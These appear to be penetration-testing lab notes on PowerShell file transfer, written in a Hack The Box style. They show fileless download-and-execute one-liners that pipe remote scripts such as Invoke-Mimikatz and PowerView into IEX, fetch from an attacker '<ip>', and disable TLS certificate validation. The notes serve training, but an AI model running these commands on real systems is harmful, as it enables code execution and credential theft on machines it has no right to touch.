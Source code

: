 #### PowerShell DownloadString - Fileless Method
* PowerShell can also be used to perform fileless attacks
* Instead of downloading a PowerShell script to disk, we can run it directly in memory using the [Invoke-Expression](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-7.2) cmdlet or the alias `IEX`.

```powershell
PS C:\htb> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

* `IEX` also accepts pipeline input

```powershell
PS C:\htb> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```

#### PowerShell Invoke-WebRequest
* From PowerShell 3.0 onwards, the [Invoke-WebRequest](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.2) cmdlet is also available, but it is noticeably slower at downloading files
*  Aliases `iwr`, `curl`, and `wget` instead of the `Invoke-WebRequest`

```powershell
PS C:\htb> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```

#### Common Errors with PowerShell
* There may be cases when the Internet Explorer first-launch configuration has not been completed, which prevents the download
	* This can be bypassed using the parameter `-UseBasicParsing`

```powershell
PS C:\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 | IEX

Invoke-WebRequest : The response content cannot be parsed because the Internet Explorer engine is not available, or Internet Explorer's first-launch configuration is not complete. Specify the UseBasicParsing parameter and try again.
At line:1 char:1
+ Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/P ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CategoryInfo : NotImplemented: (:) [Invoke-WebRequest], NotSupportedException
+ FullyQualifiedErrorId : WebCmdletIEDomNotSupportedException,Microsoft.PowerShell.Commands.InvokeWebRequestCommand

PS C:\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```

* SSL/TLS certificate not trusted

```powershell
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')

Exception calling "DownloadString" with "1" argument(s): "The underlying connection was closed: Could not establish trust
relationship for the SSL/TLS secure channel."
At line:1 char:1
+ IEX(New-Object Net.WebClient).DownloadString('https://raw.githubuserc ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : WebException
PS C:\htb> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```
